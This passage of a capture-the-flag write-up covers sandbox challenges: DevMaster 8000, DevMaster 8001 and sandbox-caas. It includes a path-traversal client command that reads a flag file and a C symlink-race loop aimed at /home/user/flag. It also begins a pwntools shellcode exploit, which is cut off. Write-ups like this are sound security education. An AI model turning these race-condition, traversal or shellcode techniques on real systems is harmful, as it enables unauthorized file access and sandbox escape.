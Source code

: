 Flag: `CTF{pl4y1ng_with_v1rt_3F1_just_4fun}`

## Sandbox
### DevMaster 8000
* Use client to grab flag

```bash=
./client nc devmaster.ctfcompetition.com 1337 \
-- -- -- ../../drop_privs admin admin cat ../../flag

```
flag : `CTF{two-individually-secure-sandboxes-may-together-be-insecure}`

### DevMaster 8001
The fetch command in the server process has a symlink race condition. First we created a normal file in the sandbox and fetched it. During the fetch command, we rapidly flipped the target file betwen a symlink pointing to the flag file and a normal file. If the target file is a normal file when doing the file check and gets changed to the symlink when reading its content, we can donwload the flag file.

flag : `CTF{devMaster-8001-premium-flag}`


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

int main() {
        while (1) {
                close(open("c.out", O_CREAT));
                symlink("/home/user/flag", "d.out");
                rename("c.out", "b.out");
                rename("d.out", "b.out");
        }
        return 0;
}

```

### sandbox-caas
* Double fetch Host cause connect failed
* Receive connect failed socket fd from RPC Server
* Because this socket is fetch from out of sandbox, it's Network Namespace is different from sandbox
* We can connect to flag server by this socket

flag : `CTF{W3irD_qu1rKs}`


```python
from pwn import *
context.arch = "amd64"

r = remote("caas.ctfcompetition.com", 1337)

context.arch = "amd64"

shellcode = ""

shellcode += asm(shellcraft.pushstr("127.0.0.1"))

shellcode += asm("""
mov r15,rsp
push 0
```